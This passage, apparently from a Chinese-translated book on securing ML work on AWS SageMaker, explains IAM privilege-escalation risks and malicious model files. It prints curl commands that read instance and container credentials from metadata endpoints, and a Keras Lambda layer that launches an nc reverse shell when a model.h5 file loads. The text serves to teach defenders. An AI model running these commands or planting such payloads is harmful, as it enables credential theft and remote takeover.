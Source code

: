 根据这个 IAM 角色的设置方式，它可能附带有`AmazonSageMakerFullAccess` IAM 策略，该策略授予对几个 AWS 服务的访问权限。如果配置了一组限制较少的权限，可以获得 SageMaker Studio 或笔记本实例访问权限的攻击者可能会使用权限提升攻击来获得额外的权限。假设您计划为 10 名参与者举办一次 ML 研讨会。为了进行设置，首先为每个参与者创建一个 IAM 用户来访问一个专用的笔记本实例(或相应的 SageMaker Studio 域和用户集)，如下图所示:

![Figure 9.1 – Sample IAM configuration of an ML workshop environment

](img/B18638_09_001.jpg)

图 9.1–ML 车间环境的示例 IAM 配置

在这里，IAM 用户只有列出和访问可用笔记本实例的权限。但是，笔记本实例附加了 IAM 角色，这些角色可能具有额外的权限，攻击者可能会利用这些权限。也就是说，一旦攻击者(作为研讨会参与者)使用一个 IAM 用户访问研讨会期间可用的一个笔记本实例，攻击者只需在笔记本实例的终端内打开一个`curl`命令:

```
curl http://169.254.169.254/latest/meta-data/identity-

credentials/ec2/security-credentials/ec2-instance
```

或者，如果您已经设置并使用 **SageMaker Studio** 来代替 workshop，攻击者可以运行以下命令并获得安全凭证:

```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

一旦凭证被泄露，攻击者现在就有了各种关于如何使用这些凭证来执行特定攻击的选项。*吓人吧？*如果附加到笔记本实例的 IAM 角色附加了`AdministratorAccess`受管策略，该怎么办？这意味着攻击者将能够使用权限提升攻击获得完全的管理员访问权限！

为了减轻和管理与此类似的场景相关的风险，建议在配置附加到 AWS 资源的 IAM 角色时实践最小特权原则。这意味着我们需要更深入地研究附加到 IAM 角色的策略，并检查哪些权限可以删除或减少。这将限制潜在的损害，即使在特权提升攻击已经执行之后。除此之外，如果您要举办一次 ML 研讨会，您可能希望利用 **SageMaker Studio Lab** 而不是在您的 AWS 帐户中创建笔记本实例供参与者使用。通过这种方法，研讨会参与者可以在不使用 AWS 帐户的情况下运行 ML 培训实验和部署。同时，使用 SageMaker Studio Lab 是免费的，非常适合研讨会！

注意

关于这个话题的更多信息，请查看 https://studiolab.sagemaker.aws/。

## 网络安全

在训练和部署 ML 模型时，ML 工程师可能会意外地使用包含攻击者准备的恶意代码的库或自定义容器映像。例如，攻击者可能会生成一个包含反向 shell 负载的`model.h5`文件:

```
import tensorflow

from tensorflow.keras.layers import Input, Lambda, Softmax

from tensorflow.keras.models import Model

from tensorflow.keras.optimizers import Adam

def custom_layer(tensor):

    PAYLOAD = 'rm /tmp/FCMHH; mkfifo /tmp/FCMHH; cat /tmp/FCMHH | /bin/sh -i 2>&1 | nc 127.0.0.1 14344 > /tmp/FCMHH'

    __import__('os').system(PAYLOAD)

    return tensor

input_layer = Input(shape=(10), name="input_layer")

lambda_layer = Lambda(

    custom_layer,   

    name="lambda_layer"

)(input_layer)

output_layer = Softmax(name="output_layer")(lambda_layer)
```